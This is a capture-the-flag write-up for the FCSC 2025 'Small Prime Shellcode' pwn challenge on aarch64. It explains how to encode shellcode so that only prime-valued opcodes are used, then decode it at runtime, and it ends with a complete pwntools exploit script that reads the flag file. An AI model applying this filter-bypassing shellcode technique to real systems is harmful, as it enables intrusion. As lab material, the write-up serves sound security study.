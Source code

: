 +++
title = "FCSC 2025 | Small Prime Shellcode"
+++
# [Pwn] Small Prime Shellcode | FCSC 2025

* [1. Checksec](#checksecs)
* [2. Writeup](#writeup)
* [3. Full exploit](#full-exploit)


## Checksecs
```
[*] '/home/botman/Documents/challenges/FCSC/small_prime_shellcode/small-primes-shellcode'
    Arch:       aarch64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

## TL;DR
Constraints: only prime opcodes

Solution:
- Encode shellcode to use only prime opcodes
- Generate a decoder
- Send decoder + encoded shellcode

## Writeup

For this challenge, the only constraint for our shellcode was to use **only 6 prime opcodes**.

To create this shellcode, I started by searching through the [ARM documentation](https://developer.arm.com/documentation/ddi0602/2025-03?lang=en). I found some small results, but discovered a terrible truth: with this constraint, it was **impossible** to change the value of `x8`, and since `x8` stores the [syscall number](https://arm64.syscall.sh/), it was impossible to make any syscalls this way.

> <span style="color:#316dca">**ⓘ NOTES**</span>
>
> Changing the value of `x8` was impossible because, in ARM, the destination register is always located at the end of the opcode. All instructions allowing a write to `x8` ended with an 8 and, therefore, weren't prime numbers.

After some tears and a little depression, I reconnected my brain and started generating a **2.7GB** file containing all possible opcodes—and finally found a solution.

![meme](/images/small-primes-shellcode/meme.jpg)

Basically, I wrote a shellcode that restores the payload during execution. To ensure only prime opcodes, I:
1. Found the next prime number for each opcode in the payload.
2. Calculated the difference between the two.
3. During execution, subtracted the difference from the prime number to recover the original payload.

I did a lot of `grep` to find what I needed. I finally selected these instructions:
```asm
adds w1, w1, #4
ldr w5, [x0, w1, uxtw]

add w5, w5, #<number>
sub w5, w5, #<number>

adds w23, w23, #25
subs w23, w23, #0
str w5, [x0, w23, uxtw]
```

What do they do?

First, I use `w1` and `w23` as counters. They allow me to load the encoded payload into `w5` using `ldr`, and then store the decoded one back with `str`. Between these two, I apply an `add` and a `sub` on the opcode prime number stored in `w5`.

You may ask why I use both `add` and `sub` instead of just `sub`. This is because of the first constraint: I can't `add` and `sub` arbitrary numbers. So I extracted all possible opcode values and wrote them into `registers.py`. With these values, I created a small function that takes a target number and a list of available `add/sub` values, and returns the operations needed.

All I had to do was put everything into an exploit and boom:


## Full exploit
```python
from pwn import *
from sympy import nextprime
import registers

CHALL = "./small-primes-shellcode"

def opps(target, add_list, sub_list):
    for add in add_list:
        sub_target = add - target
        sub_idx = sub_list.index(sub_target) if sub_target in sub_list else None
        if sub_idx:
            sub = sub_list[sub_idx]
            return [add, sub]
    return None

def encode_shellcode(shellcode):
    payload = b''
    conv_table = []
    shellcode = bytes(asm(shellcode))

    for i in range(0, len(shellcode), 4):
        opcode = int.from_bytes(shellcode[i:i+4][::-1])
        prime = nextprime(opcode)

        payload += p32(prime)
        conv_table.append(prime - opcode)

    return payload, conv_table

def gen_decoder(conv_table):
    code = ''
    for diff in conv_table:
        w5 = opps(-diff, registers.a_w5, registers.s_w5)

        code += '''
        adds w1, w1, #4
        ldr w5, [x0, w1, uxtw]

        add w5, w5, #%i
        sub w5, w5, #%i

        adds w23, w23, #25
        subs w23, w23, #21
        str w5, [x0, w23, uxtw]
        ''' % (w5[0], w5[1])

    return bytes(asm(code))

def gen_prefix(length):
    w1 = opps(length+16, registers.a_w1, registers.s_w1)
    w23 = opps(length+16, registers.a_w23, registers.s_w23)

    prefix = '''
    adds w1, w1, #%i
    subs w1, w1, #%i

    adds w23, w23, #%i
    subs w23, w23, #%i
    ''' % (w1[0], w1[1], w23[0], w23[1])

    return bytes(asm(prefix))

def exploit(io, elf):
    payload, conv_table = encode_shellcode(shellcraft.cat("flag.txt"))
    decoder = gen_decoder(conv_table)
    prefix = gen_prefix(len(decoder))

    payload = flat(
        prefix,
        decoder,
        b'\x61\x02\x00\xd4',
        payload,
    )
    io.info("full payload size: %i bytes" % len(payload))

    padding = b"\x0b\x00\x00\x00"*int((0x400-len(payload))/4)
    io.send(payload + padding)
    flag = io.recv().decode()

    return flag
```


[download here](/exploits/small-primes-shellcode.py)

**Written by *0xB0tm4n***

